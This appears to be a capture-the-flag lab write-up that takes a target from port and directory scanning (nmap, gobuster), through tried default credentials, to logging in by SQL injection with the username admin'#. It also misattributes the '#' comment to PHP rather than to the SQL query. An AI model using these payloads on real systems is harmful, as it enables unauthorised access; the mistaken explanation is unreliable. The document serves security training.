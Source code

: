 1. **Scan all the ports using default scripts and determine service and version of open ports**
```bash
nmap -sV -sC [target ip]
```
--> port 80/tcp - open - http
--> http-server-header: Apache/2.4.38 (Debian) / http-title: Login


2. **Search the IP of the machine on our browser**
--> We can see a basic Login Page, but we don't have the user and the password yet.


3. **Check out the web directories with Gobuster**
```shell
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
--> We have not found helpful information


4. **Try with deafault credentials**
```shell
admin - admin
root - root
user - user
guest - guest
administrator - password
```
--> There wasn't the correct credentials


5. **Test the log in form for a possible SQL Injection vulnerability**
```php
# We can notice that in PHP language, "#" is used to make a comment, so we can conclude that if we use a "#" in the username, the website will read it like a comment, so it won't read the password.

--> Username: admin'#
	Password: [random]
```
--> **MACHINE PWNED!** Now, we are into the website and we can Capture the Flag.
